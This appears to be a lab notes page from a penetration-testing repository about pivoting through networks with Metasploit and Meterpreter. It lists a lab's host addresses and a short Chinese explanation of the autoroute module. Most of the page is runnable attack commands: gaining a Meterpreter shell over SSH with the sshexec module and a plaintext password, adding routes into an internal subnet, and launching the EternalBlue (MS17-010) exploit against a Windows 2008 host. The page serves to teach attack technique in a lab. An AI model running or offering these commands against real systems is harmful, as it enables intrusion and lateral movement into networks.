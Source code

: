 Meterpreter
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Enviroment
Parrot 
```bash
# eth0 : 192.168.0.18
# eth1 : 172.19.19.18
```
SSH
```bash
# eth0 : 192.168.0.70
# eth1 : 172.19.19.70
sudo ifconfig eth0 down
```
Windows 2008 (Web Server)
```bash
# eth0 : 192.168.0.7
# eth1 : 172.19.19.7
Disable 172.19.19.7
```

# MSF
![](./MSF.png)
```
MSF的autoroute模組是MSF框架中自帶的路由轉送功能
實作是MSF框架在已經取得的Meterpreter Shell的基礎上
增加一條去往「內網」的路由，直接使用MSF去存取原本不能
直接存取的內部網路資源，只要路由可達我們即可使用MSF來
進行探測
```
SSH
```bash
msfconsole -q
# msf
use exploit/multi/ssh/sshexec
set lhost 172.19.19.18
set rhosts 172.19.19.70
set username administrator
set password Infinit3
exploit
# meterpreter
shell
```
Session-Routing
```bash
run get_local_subnets
run post/multi/manage/autoroute OPTION=s
run autoroute -p
background


#也可以使用route add去設置
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 192.168.0.7
set lhost  172.19.19.18
check
exploit
```

